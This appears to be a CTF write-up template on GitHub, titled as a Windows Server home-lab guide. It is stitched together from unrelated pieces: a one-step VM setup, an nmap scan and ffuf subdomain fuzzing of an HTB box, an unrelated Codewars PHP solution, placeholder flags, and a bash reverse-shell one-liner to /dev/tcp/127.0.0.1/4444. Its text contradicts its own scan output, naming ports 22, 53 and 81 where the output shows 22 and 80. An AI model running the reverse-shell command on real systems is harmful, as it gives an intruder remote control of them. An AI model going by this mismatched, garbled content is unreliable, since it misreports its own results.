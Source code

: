 **Title**: "Home Lab Setup"

**Author**: Tarell King

**Tools Used**: [Windows server, AD (Active Directory), xx ]

## Setting up virtual enviorment  **Prerequsites Virtaul box or another virtualization software, windows server iso**

We begin by installig windows server in a virtual machine. 

Create a Windows 10 Virtal machine and assign the windows server iso in the storage devices.

![image](https://github.com/TarellKing/Home-Lab/assets/121117376/4f3948b9-315c-4803-a6ef-cad8ed72a8cb)



```console

┌──(tarell㉿kali)-[~]
└─$ sudo nmap -sV 10.10.11.11

Starting Nmap 7.94 ( https://nmap.org ) at 2024-06-22 22:42 EDT
Nmap scan report for 10.10.11.11
Host is up (0.097s latency).
Not shown: 998 closed tcp ports (reset)
```

#Enumeration

```console

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.31 seconds
```

From the above output we can see that ports, 22, 53, and 81 are the ports open. 



# Fuzzing  

Perform a sub-domain/vhost fuzzing scan on ‘*.board.htb’ using the provided IP address. To achieve this, use a wordlist of common subdomains. This wordlist will try each entry as a subdomain for ‘board.htb’. Here is the command:
```console

ffuf -w Desktop/wordlist.txt -u http://board.htb/ -H "host:FUZZ.board.htb" -H "Content-Type: application/x-www-form-urlencoded" -fs 15949 -c 

```
after fuzzing we can see that x was found 



























```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](./images/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
